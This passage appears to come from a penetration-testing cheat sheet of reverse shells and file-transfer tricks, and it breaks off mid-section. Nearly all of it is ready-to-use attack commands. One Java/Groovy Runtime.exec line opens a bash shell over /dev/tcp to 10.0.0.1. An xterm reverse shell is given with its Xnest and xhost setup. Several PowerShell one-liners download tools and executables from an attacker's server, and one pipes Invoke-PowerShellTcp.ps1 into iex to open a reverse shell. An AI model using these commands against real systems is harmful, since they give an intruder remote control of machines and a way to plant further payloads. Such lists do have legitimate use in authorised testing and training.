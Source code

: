 ```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1

```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

##

## Linux

## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Creating a server with python3
